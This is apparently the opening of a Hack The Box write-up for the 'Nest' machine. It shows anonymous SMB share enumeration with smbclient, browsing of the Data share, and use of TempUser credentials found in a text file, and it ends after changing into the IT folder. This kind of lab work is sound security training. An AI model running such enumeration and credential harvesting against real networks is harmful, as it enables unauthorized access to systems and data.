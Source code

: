* i used smbclient for smb enumeration "enum shares" and i found some credentials.

```ruby
smbclient -L \\10.10.10.178 -U ""
Enter WORKGROUP\'s password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	Secure$         Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

```
* **here we have to shares we can access it >> Users and Data.** let's dig more.

* **now we want to enume the data in the smb shares**, let's go.

```ruby
smbclient \\\\10.10.10.178\\Data -U ""
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                             D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019

		10485247 blocks of size 4096. 6545667 blocks available
smb: \> 
```
* here we go .

**Ater Some enumeration i found the TempUser Credentials in Txt File**.

![](https://i.ibb.co/b2RHPRV/tempuser.png)

```ruby
xdev05@XDev05:~/Documents/HTB/Nest$ smbclient  \\\\10.10.10.178\\Data -U TempUser
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                             D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019
cd 
		10485247 blocks of size 4096. 6545667 blocks available
smb: \> cd IT

```
